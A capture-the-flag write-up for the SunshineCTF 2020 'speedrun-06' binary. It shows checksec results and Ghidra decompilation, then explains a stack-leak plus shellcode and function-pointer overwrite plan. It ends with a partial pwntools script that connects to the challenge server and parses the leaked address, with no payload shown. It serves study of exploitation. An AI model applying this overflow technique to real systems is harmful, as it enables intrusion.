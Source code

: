 
## speedrun-06

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

No canary--BOF. No NX/Has RWX--shellcode. PIE enabled--no ROP without leak.

### Decompile with Ghidra

```c
void main(void)
{
  char local_d8 [208];
  
  printf("Letting my armor fall again: %p\n",local_d8);
  fgets(local_d8,199,stdin);
  vuln();
  return;
}

void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  puts("For saving me from all they\'ve taken.");
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}
```

Not unlike the previous challenge, however no `win` function.  But with No NX/Has RWX we can bring our own `win` function.

`main` leaks the stack and accepts our shellcode, `vuln` calls it.  To trigger in `vuln` send `0x48 - 0x10` (56) bytes of garbage followed by the stack address leak from `main`.


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_06')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30006)

p.recvuntil('Letting my armor fall again: ')
_ = p.recvline().strip()
stack = int(_,16)
log.info('stack: ' + hex(stack))

```